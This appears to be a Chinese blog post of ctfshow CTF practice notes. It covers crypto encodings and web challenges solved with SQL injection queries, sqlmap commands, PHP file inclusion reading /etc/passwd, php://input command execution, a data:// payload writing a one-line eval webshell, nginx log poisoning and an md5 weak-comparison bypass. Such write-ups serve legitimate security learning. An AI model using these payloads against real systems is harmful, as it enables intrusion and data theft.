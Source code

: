 ```yaml
---
layout:     post
title:      2021-08-09-ctfshow做题笔记
subtitle:   2021-08-09-ctfshow做题笔记
date:       2021-8-9
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - 笔记
    - ctf
---
```


**作者：鸿鹄（阳阳）**

## crypto
#### crypto签到-14
这些题目包含了常用的密码学
- rot密码
- 凯撒密码
- jsfuck、表情密码（均可直接在控制台运行出来）
- OoK加密
- brainfuck
  * https://www.splitbrain.org/services/ook
- [rsa算法](https://baike.sogou.com/v453178.htm?fromTitle=rsa)   
  * https://mp.weixin.qq.com/s?src=11&timestamp=1628757653&ver=3247&signature=rQMa*8AVCpkLz3zO51g4PQnvqRrUmMNHxGK2dGg00-NV4J9naXyDWYcd5s05PJmu6uCDkFTw3j7GZHj8-FGPRmdLvf4xfcLwz7ZtULSqaLD4ToQ-MAnT5as8rZOXFwgx&new=1
- Rabbit加密
- serpent加密
  * http://serpent.online-domain-tools.com/
- Quoted-printable解码
  * http://web.chacuo.net/charsetquotedprintable/
- md5（32位）
- 埃特巴什码
- 脚本解密（大部分基于字符）


## web

#### web 签到题

1. F12打开控制台,源码注释发现字符串,根据经验进行base64解码即可.[https://base64.us/](https://base64.us/)
2. 也可以view-source

#### web2

- 方法一

简单的sql注入,我们使用万能密码发现注入点在username,并且有回显

[![f1vRnP.png](https://z3.ax1x.com/2021/08/09/f1vRnP.png)](https://imgtu.com/i/f1vRnP)

然后进行常规手工注入即可

```mysql
sql手工注入常用语句：

普通语句：schema_name——数据库名；table_name——表名；column_name——字段名；

查询数据库：select schema_name from information_schema.schemata#

　　　　　　slelect database()#

查询数据库表：select table_name from information_schema.tables where table_schema='数据库名'#

查询字段名：select column_name from infromation_schema.columns where table_name='表名'#

查询字段内容：select * from 表名#
```



```sql
admin' or 1=1 order by 3#	//有回显
admin' or 1=1 order by 4#	//无回显

admin' or 1=1 union select 1,2,3#	//位置是2

admin' or 1=1 union select 1,database(),3#	//数据库名字是web2

admin' or 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#	//表名字为flag,user

admin' or 1=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name="flag"#	// 字段名为flag

admin' or 1=1 union select 1,flag,3 from flag#	//得到flag
```

ctfshow{add81b69-8f21-4e43-b091-105ef61e4a71}

- 方法二

  直接sqlmap跑即可

  1. 把之前抓取的数据复制到sqlmap根目录下test.txt内[![f39XY8.png](https://z3.ax1x.com/2021/08/09/f39XY8.png)](https://imgtu.com/i/f39XY8)

  2. 保存完成后开始跑

      ```
      python sqlmap.py -r test.txt --dbs
      python sqlmap.py -r test.txt -D web2 --tables
      python sqlmap.py -r test.txt -D web2 -T flag --columns
      python sqlmap.py -r test.txt -D web2 -T flag -C flag --dump
      ```

#### web3

 `<?php include($_GET['url']);?>`

文件包含，发现测试`url=/etc/passwd`有回显[![f3ZFRx.png](https://z3.ax1x.com/2021/08/09/f3ZFRx.png)](https://imgtu.com/i/f3ZFRx)

- 方法一

我们利用php伪协议 php://input post提交命令，hackbar不太行，使用bp

<?php system("ls") ?>

<?php system("cat ctf_go_go_go") ?>

ctfshow{ff020599-61ce-47e7-877d-37a36638edd5}

- 方法二

?url=data:*//text/plain,<?php print_r(glob("\*")); ?>*

- 方法三

url=data:text/plain,<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST['hack']);?>")?>

然后进行菜刀链接

- 方法四

因为是nginx服务器也可以使用日志包含

#### web4

使用nginx的日志包含

?url=/var/log/nginx/access.log可以打开

然后把一句话写到ua头中

然后进行菜刀链接即可

#### web5

```php
<?php
        $flag="";
        $v1=$_GET['v1'];
        $v2=$_GET['v2'];
        if(isset($v1) && isset($v2)){
            if(!ctype_alpha($v1)){
                die("v1 error");
            }
            if(!is_numeric($v2)){
                die("v2 error");
            }
            if(md5($v1)==md5($v2)){
                echo $flag;
            }
        }else{
        
            echo "where is flag?";
        }
    ?>
```

> **代码审核：**get传参绕过
>
> ctype_alpha ( string $text ) : bool
>
> 做纯字符检测如果在当前语言环境中 text 里的每个字符都是一个字母，那么就返回true，反之则返回false。
>
> 
>
> is_numeric() 函数
>
> 用于检测变量是否为数字或数字字符串。如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE。
>
> 同时php弱类型比较，当比较的双方类型不相同时，会先转化成相同的再进行比较，如果转化之后都是以0e为开头的字符串，则==成立。

取v1=QNKCDZO v2=240610708

#### web6

逐个字符输入后发现过滤了空格，一般空格被过滤有如下替换方法
```
/**/
()
回车(url编码中的%0a)
`(tab键上面的按钮)
tab
两个空格
```
然后使用基本的模板注入即可

#### web7
当有空格时会报错,用/**/绕过,得到注入点
然后进行模板注入即可

只是6和7出现注入点的形式不同
#### web8
过滤了很多，空格、单引号、union等等
使用盲注

















## web入门

#### web1







